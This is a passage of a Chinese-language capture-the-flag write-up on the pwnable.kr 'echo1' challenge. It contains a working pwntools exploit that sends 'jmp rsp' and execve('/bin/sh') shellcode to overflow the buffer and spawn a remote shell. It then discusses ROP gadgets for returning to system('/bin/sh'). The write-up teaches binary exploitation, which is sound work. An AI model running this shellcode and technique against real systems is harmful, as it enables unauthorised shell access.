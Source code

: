 ```python
    libc = elf.libc


else:
    io = remote("pwnable.kr", 9010)
    #  libc = ELF("")


def DEBUG(cmd = ""):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

if __name__ == "__main__":
    io.sendlineafter(" : ", asm("jmp rsp"))
    #  DEBUG("b *echo1\nc")
    io.sendlineafter("> ", "1")
    sc = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
    payload = fit({0x20 + 8: [elf.sym['id'], sc]})
    io.sendline(payload)
    
    io.interactive()
    io.close()
```

### rop

更进一步，如果程序关闭了NX，能不能通过rop解决

答案是肯定的，rop需要有合适的gadget，这里只需要有类似 **pop rdi;ret**的gadget来控制第一个参数即可leak出libc基址，进而返回到system("/bin/sh")

想法很美好，但找来找去也没有找到能控制rdi的gadget（**如果你找到了，请务必告诉我**），利用64位elf通用gadget([参考链接](https://www.cnblogs.com/Ox9A82/Ox9A82/p/5487725.html))偏移凑出的gadget也因为改变了rsp不能用

```assembly
pwndbg> x/3i 0x0000000000400b0f+1
   0x400b10 <__libc_csu_init+128>:	mov    edi,DWORD PTR [rsp+0x30]
   0x400b14 <__libc_csu_init+132>:	add    rsp,0x38
   0x400b18 <__libc_csu_init+136>:	ret    
```

这时候再把目光放到控制id的8个字节上，看一下8个字节，我们能写多少指令

```bash
pwnable_echo1 [master●●] rasm2 -a x86 -b 64 "pop rdi;ret"                            
5fc3
pwnable_echo1 [master●●] rasm2 -a x86 -b 64 "pop rdi;pop rsi;ret"
5f5ec3
pwnable_echo1 [master●●] rasm2 -a x86 -b 64 "pop rdi;pop rsi;pop rdx;ret"
5f5e5ac3
pwnable_echo1 [master●●] rasm2 -a x86 -b 64 "pop rdi;pop rsi;pop rdx;pop rcx;ret"
5f5e5a59c3
```
